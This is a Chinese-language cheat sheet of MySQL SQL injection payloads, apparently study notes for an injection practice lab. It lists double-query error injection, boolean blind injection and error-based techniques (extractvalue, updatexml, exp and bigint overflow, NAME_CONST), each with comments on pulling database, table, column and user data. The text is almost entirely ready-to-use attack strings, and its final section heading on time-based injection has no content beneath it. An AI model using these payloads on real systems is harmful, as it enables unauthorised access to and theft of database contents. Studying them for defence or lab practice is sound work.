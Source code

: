 ```mysql
select concat((select database()),floor(rand()*2))
select concat((select database()),floor(rand()*2))from information_schema.tables(表名); //返回数量由表本身几条决定
select concat((select database()),floor(rand()*2)) as a from information_schema.tables;//加别名，此时a即concat((select database()),floor(rand()*2))
SELECT concat((SELECT database()), floor(rand()*2))as a from information_schema.tables group by a;  //group by对返回进行分组处理，直接使用前面的别名

下面利用count函数和上面操作构成mysql内部错误，通过报错返回信息
SELECT count(*),concat('~',(SELECT database()),'~', floor(rand()*2))as a from information_schema.tables group by a;  //爆库，爆用户用user(),  concat()中间可任意加符号将结果更清晰,基本框架,更改‘select database()’成其他sql语句即可
select count(*),concat('~',(select concat(table_name) from information_schema.tables where table_schema=database() limit 1,1),'~',floor(rand()*2)) as a from information_schema.tables group by a--+  //爆表名，修改limit x,1 可以遍历表名
select count(*),concat('~',(select column_name from information_schema.columns where table_name='users' limit 1,1),'~',floor(rand()*2)) as a from information_schema.tables group by a--+


Select 1 from (select count(*), concat('~',(select user()),'~', floor(rand()*2))as a from information_schema.tables group by a)x;  //派生表 select 1 from (table_name)，使一个报错，另一个的结果就会出现在报错的信息中

```

**布尔盲注** (参照page1-8)

```mysql
1. and left(version(),1)=8#   //出版本
2. and length(database())=8#   //出数据库长度
3. and left(database(),1)>'a'--+   //看第一位是否大于a，手注二分法爆数据库名，
4. and left(database(),2)>'sa'--+   //同上方法，下面同理
5. and ascii(substr((select table_name from information_schema.tables where table_schema=database()limit 0,1),1,1))=101--+       //ascii爆表字符，limit的第一个是控制列数
6. and 1=(select 1 from information_schema.columns where
   table_name='users' and column_name regexp '^username' limit 0,1)--+  //regexp查看users表是否有username的列
7. and ORD(MID((SELECT IFNULL(CAST(username AS CHAR),0x20)FROM security.users ORDER BY id LIMIT 0,1),1,1))=68--+     //ord() 和mid() 获取security.users表下第一行的字符数=D，同样可以爆破出所有数据
```

**报错注入**  ()

```mysql
*1. union Select 1,count(*),concat(0x3a,0x3a,(select user()),0x3a,0x3a,floor(rand(0)*2))a from information_schema.columns group by a--+   //双查询注入
2. union select (exp(~(select * FROM(SELECT USER())a))),2,3--+   //double数值类型超出范围进行报错注入
3. union select (!(select * from (select user())x) - ~0),2,3--+  //bigint溢出报错注入
*4. and extractvalue(1,concat(0x7e,(select @@version),0x7e))--+  //同双查询用法，union换成and,删掉后面的count,group等即可，优先使用
    and updatexml(1,concat(0x7e,(select @@version),0x7e),1)--+    //xpath函数报错注入
5. union select 1,2,3 from (select NAME_CONST(version(),1),NAME_CONST(version(),1))x --+
//数据重复性
```
**延时注入** (参照page1-9)
